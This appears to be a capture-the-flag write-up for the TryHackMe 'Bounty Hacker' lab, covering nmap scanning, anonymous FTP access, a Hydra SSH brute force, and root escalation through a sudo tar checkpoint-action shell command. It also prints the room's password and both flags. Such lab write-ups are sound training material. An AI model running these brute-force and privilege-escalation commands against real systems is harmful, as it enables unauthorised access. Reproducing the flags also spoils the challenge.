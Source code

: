 # 🏴‍☠️ TryHackMe - Bounty Hacker

**Platform:** TryHackMe  
**Challenge Type:** Boot2Roo  
**Author:** Gage Ayala ([@GageGotya](https://github.com/GageGotya))  
**Date:** April 9, 2025  
**Difficulty:** ⭐ Easy  

---

## 📘 Overview

The **Bounty Hacker** room places you in the role of a digital bounty hunter targeting a cybercriminal syndicate.  
You'll enumerate a server, access files via FTP, crack credentials, and escalate to root using a misconfigured sudo permission.

> 💡 A great beginner-friendly room covering foundational pentesting techniques like recon, password reuse, and privilege escalation.

---

## 🌐 Information Gathering

**Target IP:** _Provided by the room_

### 🔍 Nmap Scan

```bash
nmap -sC -sV <target-ip>
```

**Ports Discovered:**

- `21/tcp` – FTP (vsftpd 3.0.3, anonymous login allowed)  
- `22/tcp` – SSH (OpenSSH 7.2.2)  
- `80/tcp` – HTTP (Apache httpd 2.4.18)

---

## 📂 FTP Access

```bash
ftp <target-ip>
Name: anonymous
```

### 📁 Files Discovered

```bash
ftp> ls
locks.txt
task.txt

ftp> get locks.txt
ftp> get task.txt
```

#### 📄 task.txt

```
1.) Protect Vicious.  
2.) Plan for Red Eye pickup on the moon.  
-lin
```

🔑 **Username hint:** `lin`

#### 📄 locks.txt

Custom password list found which are likely reused credentials.

---

## 🔓 Gaining Access

### 🚀 Brute Force with Hydra

```bash
hydra -l lin -P locks.txt ssh://<target-ip>
```

✅ **Password Found:** `RedDr4gonSynd1cat3`

---

## 🔐 SSH Access

```bash
ssh lin@<target-ip>
```

---

## 🏁 User Flag

```bash
cat ~/Desktop/user.txt
```

**Flag:**  
```
THM{CR1M3_SyNd1C4T3}
```

---

## 🪜 Privilege Escalation

### 🔍 Sudo Permissions

```bash
sudo -l
```

```text
User lin may run the following command as root:
(root) /bin/tar
```

### 📦 Exploiting tar

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

```bash
whoami
root
```

---

## 👑 Root Flag

```bash
cat /root/root.txt
```

**Flag:**  
```
THM{80UN7Y_h4cK3r}
```

---

## 💡 Reflections

- Anonymous FTP access is often overlooked but powerful  
- Password reuse is still a major weakness  
- Always run `sudo -l` — it's a goldmine  
- Even basic tools like `tar` can grant root when misconfigured

---

## 🧠 Pro Tip

> *"When in doubt, poke around, read everything, and always try the simple stuff first."*

---

## 📁 Summary of Key Files

| File        | Description                            |
|-------------|----------------------------------------|
| `locks.txt` | Password list used in brute-force      |
| `task.txt`  | Initial objective + username clue      |
| `user.txt`  | First flag found on user's desktop     |
| `root.txt`  | Root flag retrieved after escalation   |
